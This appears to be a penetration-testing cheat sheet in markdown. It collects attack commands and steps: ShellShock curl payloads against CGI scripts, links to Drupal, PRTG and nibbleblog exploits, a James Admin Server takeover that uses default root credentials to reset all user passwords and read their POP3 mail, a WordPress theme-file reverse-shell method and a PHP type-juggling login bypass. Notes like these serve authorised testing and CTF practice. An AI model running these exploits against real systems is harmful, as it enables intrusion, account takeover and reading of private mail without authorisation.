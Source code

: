 ### ShellShock

```bash
curl -A "() { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script 
 
curl -H "User-Agent: () { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script
```

### drupal
``` bash
droopescan scan -u IP
# initial shell(limited function) 
# https://github.com/dreadlocked/Drupalgeddon2 
# only command execution 
# https://github.com/Jack-Barradell/exploits/blob/master/CVE-2018-7600/cve-2018-7600-drupal7.py
```

### James Admin Server initial foothold & POP3
```bash
# If you find something on port 4555 and also running POP3
# try login to port 4555 via telnet with root:root
# if you successfully login, run
listusers
# reset all the password
setpassword USER 123
#Then connect to port 110 POP3, login all user account to read the mail
USER USER
PASS 123
LIST
RETR 1
```

### Wordpress non public exploit
* if able to login to the admin panel
  * go to apperance and select 404.php, replace content with reverse shell payload, setup listener, go to nonexisting page
  * [plugin shell upload](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

### prtg
* [Python2 exploit](https://github.com/wildkindcc/CVE-2018-9276/blob/master/CVE-2018-9276.py )
* [Python3  exploit](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/exploit.py )

### nibbleblog
* [Shell upload script](https://github.com/dix0nym/CVE-2015-6967)
```
python nibble.py --url URL --username USER --password  PASS -x PAYLOAD
```

### post form login bypass with type juggling
* if server using php post form login,
may check php type juggling
just add a `[]` between `password` and `=`
